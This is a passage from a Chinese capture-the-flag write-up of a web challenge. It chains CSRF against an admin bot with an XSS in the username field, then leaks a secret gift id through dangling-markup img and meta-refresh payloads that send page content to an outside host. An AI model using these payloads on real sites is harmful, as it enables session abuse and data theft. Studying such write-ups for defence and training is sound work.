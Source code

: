 ```javascript
app.get('/flag', async (req, res) => {
    if (req.user.balance >= Infinity) res.sendFile('flag.txt', { root: '.' })
    else res.type('text/plain').send('not enough balance...')
})

app.listen(3000, () => (
    [console.log, logger]?.[process.env.LOG]?.('listening on 3000')
))
```

复现的时候发现这是一道很有意思的题目, 涉及到了很多前端的知识点, 而且这种条件竞争的思路感觉也很新奇

解题思路参考了 `deltaclock@Zer0Tolerance` 在 discord 发布的 exp, 地址如下

[https://discord.com/channels/805956008665022475/808122408019165204/1072305138305355936](https://discord.com/channels/805956008665022475/808122408019165204/1072305138305355936)

考虑到比赛期间的 admin bot 可以提交任意地址 (之前 codebox 那题的 bot 就只能填题目地址), 所以猜测 cookie 的 samesite 属性为 none, 也就是可以进行 csrf

既然给了 bot 所以可以推测出来大致的解题流程: 利用 csrf 使 admin 创建 amount 为 Infinity 的 gift 地址 => 想办法得到这个地址的 public id (和 private id) => 自己作为正常用户访问该地址使得自己的 amount 增加到 Infinity => 访问 /flag 页面拿到 flag

让 admin 创建 gift 地址这一步很简单, 只需要访问 `/create/Infinity` 就行了, 但是关键在于如何拿到 public id

这里要用到三个点, 分别是: xss (meta 标签), 条件竞争, js 自动插入分号的机制

不难发现网站的 username 处存在 xss

![image-20230208202152364](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302082021508.png)

但是由于极为严格的 csp 规则, 我们无法执行内联 js

不过可以发现, 在访问 /create/xx 之后, 得到的 gift 地址位于 username 的下方

![image-20230208202327841](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302082023936.png)

这时候很容易就能想到一种思路

```html
<img src="http://example.com/?leak=
<h1>flag{test}</h1>
<button id="test">button</button>
```

![image-20230208202842896](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302082028956.png)

但是同样因为 csp, img 标签实际上也是用不了的

这里其实可以利用 meta 标签进行跳转, 不过使用这种方法外带数据需要 html 都写在一行里面, 即

```html
<!--a.html-->
<meta http-equiv="refresh" content="0; url=http://example.com/?leak=
<h1>flag{test}</h1>
<button id="test">button</button>

<!--b.html-->
<meta http-equiv="refresh" content="0; url=http://example.com/?leak=<h1>flag{test}</h1><button id="test">button</button>
```
